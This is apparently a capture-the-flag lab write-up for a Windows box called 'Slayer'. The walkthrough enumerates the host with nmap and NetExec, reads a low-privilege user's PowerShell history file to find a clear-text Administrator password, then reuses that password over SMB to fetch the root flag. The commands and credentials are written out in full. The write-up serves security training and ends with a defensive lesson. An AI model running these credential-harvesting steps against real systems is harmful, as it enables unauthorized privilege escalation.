


Authorized lab only. Lab author: Ryan Yager. Solved 2026-08-06.
| Box | Slayer |
| Platform | HackSmarter (DEFCON free access) |
| Type | Windows privilege rise from stored commands |
| Fault | Clear admin password in PSReadLine history |
| Level | Easy |
| Target | 10.1.176.119 host EC2AMAZ-M1LFCNO |
| Result | Admin and root flag on Desktop |
If a low rights user can read PowerShell history, any
net user Administrator … line becomes a ready password for privilege rise.
You get tyler.ramsey after social engineering. The host is a single Windows box.
SMB and RDP work. WinRM is filtered. The win is not a potato exploit.
It is reading shell history and reusing a password.
Someone ran net user administrator "…" in a PowerShell session that wrote to tyler history.
Windows stored that line in clear text. The password still worked as local Administrator.
Client (Kali) │ tyler.ramsey:P@ssw0rd! ▼ SMB 445 / RDP 3389 → tyler (low rights) │ │ read ConsoleHost_history.txt ▼ Administrator password │ ▼ C$\Users\Administrator\Desktop\root.txt
ping -c 1 10.1.176.119 nmap -Pn -n --top-ports 100 -T4 10.1.176.119
Expect: host up. Ports 135, 445, 3389 open. WinRM filtered.
nxc smb 10.1.176.119 -u tyler.ramsey -p 'P@ssw0rd!' --local-auth nxc rdp 10.1.176.119 -u tyler.ramsey -p 'P@ssw0rd!' --local-auth
Expect: host EC2AMAZ-M1LFCNO, auth OK, no admin shares for tyler.

printf 'Y\n' | nxc rdp 10.1.176.119 -u tyler.ramsey -p 'P@ssw0rd!' --local-auth -x 'whoami /all'
Expect: Remote Desktop Users, Users, Performance Log Users. Low privileges. Medium integrity.
printf 'Y\n' | nxc rdp 10.1.176.119 -u tyler.ramsey -p 'P@ssw0rd!' --local-auth -x 'dir C:\Users'
Expect: Administrator, alice.wonderland, Public, tyler.ramsey.
printf 'Y\n' | nxc rdp 10.1.176.119 -u tyler.ramsey -p 'P@ssw0rd!' --local-auth \ -x 'type C:\Users\tyler.ramsey\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt'
Expect a line like:
net user administrator "ebz0yxy3txh9BDE*yeh"
nxc smb 10.1.176.119 -u Administrator -p 'ebz0yxy3txh9BDE*yeh' --local-auth # expect: (Pwn3d!)

smbclient //10.1.176.119/C$ -U 'Administrator%ebz0yxy3txh9BDE*yeh' \ -c 'get Users\Administrator\Desktop\root.txt root.txt' cat root.txt
ConsoleHost_history.txt.~/htb/slayer/ATTACK_LOG.md, loot, screenshotsSlayer rewards post foothold hygiene. The exploit is reading a file you already own and reusing a password that must not live in shell history.